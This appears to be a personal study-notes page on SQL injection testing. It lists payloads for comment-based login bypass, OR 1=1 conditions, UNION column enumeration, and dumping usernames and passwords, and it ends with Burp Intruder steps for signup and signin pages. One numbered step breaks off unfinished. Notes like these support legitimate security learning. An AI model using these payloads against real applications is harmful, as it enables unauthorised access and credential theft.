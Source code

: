 ```yaml
---
title: SQL INJECTION
updated: 2023-11-30 11:49:00Z
created: 2023-09-29 07:08:58Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# SQL INJECTION

1.  Look for SQL injection points:  
    In **UPDATE** statements, within the updated values or the WHERE clause.  
    `update users SET username='root',password='pass123' where username='admin';`  
    In **INSERT** statements, within the inserted values.  
    `insert into users (username,password) values ('bob','password123');`  
    In **SELECT** statements, within the table or column name.  
    In **SELECT** statements, within the ORDER BY clause.  
    `select * from users where username='admin';`  
    `select * from users where username != 'admin';`  
    `select * from users where username like '%admin%';`  
    https://portswigger.net/web-security/sql-injection/cheat-sheet

Try:  
`'` then `''`  
Use comments to exclude remaining part of query  
`'-- -`  
For MySQL add space after --  
`'-- -`  
`/*comment*/`  
`#comment`  
`'+OR+1=1-- -` or `' OR 1=1-- -`  
(Take care when injecting 1=1 ,in case it reaches an UPDATE or DELETE statement)

On Login entries:  
`administrator'-- -`
On cookies:
`Cookie: TrackingId='-- -`

2.  Check for **UNION** statements  
    `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`  
    `' UNION SELECT username, password FROM users-- -`

- Number of columns must match  
    `' ORDER BY 1-- -`  
    `' ORDER BY 2-- -`  
    `' ORDER BY 3-- -`  
    etc.  
    OR  
    `' UNION SELECT NULL-- -`  
    `' UNION SELECT NULL,NULL-- -`  
    `' UNION SELECT NULL,NULL,NULL-- -`  
    etc.  
    For **Oracle**, use `' UNION SELECT NULL FROM DUAL--`
    
- Columns must match same data type  
    Check for a column that can host string data  
    `' UNION SELECT 'a',NULL,NULL,NULL-- -`  
    `' UNION SELECT NULL,'a',NULL,NULL-- -`  
    `' UNION SELECT NULL,NULL,'a',NULL-- -`  
    `' UNION SELECT NULL,NULL,NULL,'a'-- -`  
    `' UNION SELECT NULL,NULL,NULL,'a'-- -`
    

If only 1 table to retrieve data, then  
`' UNION SELECT username || password FROM users-- -`  
`' UNION SELECT username || '~' || password FROM users-- -`

3.  Find the database version, run a UNION select query with





## Payloads for Signup pages

1.  Grab the create login payload with Burp and send to Intruder:

![13e049575cbde9c226b5d5afa676417c.png](../../_resources/13e049575cbde9c226b5d5afa676417c.png)

2.  **Clear** any payloads, and **Add** a payload marker for **Username**, **Password**, **Confirm Password**
    
3.  Add SQL injection payloads:  
    Payloads can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/SQL-Injection)  
    ![8627d324be4bea8326964cad11f73d5b.png](../../_resources/8627d324be4bea8326964cad11f73d5b.png)
    

## Signin pages

1.  Create an account called **'OR 1 OR'** , with password **'OR 1 OR'**
2.  Login with account